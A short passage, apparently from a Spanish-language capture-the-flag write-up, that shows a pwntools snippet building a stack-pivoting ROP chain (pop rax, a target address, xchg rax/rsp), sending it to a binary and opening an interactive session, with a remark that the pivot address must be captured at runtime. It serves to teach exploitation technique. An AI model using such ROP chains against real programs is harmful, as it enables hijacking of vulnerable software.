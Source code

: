 ```python
stack_pivoting += poprax_ret
stack_pivoting += addr
stack_pivoting += xchgrax_rsp_ret
io.recvuntil(b'> ')
io.sendline(stack_pivoting)


io.interactive()
```

Hay que tener en cuenta que el valor de la dirección a la que pivotar va variando, por lo que hay que capturarlo al ejecutar el binario.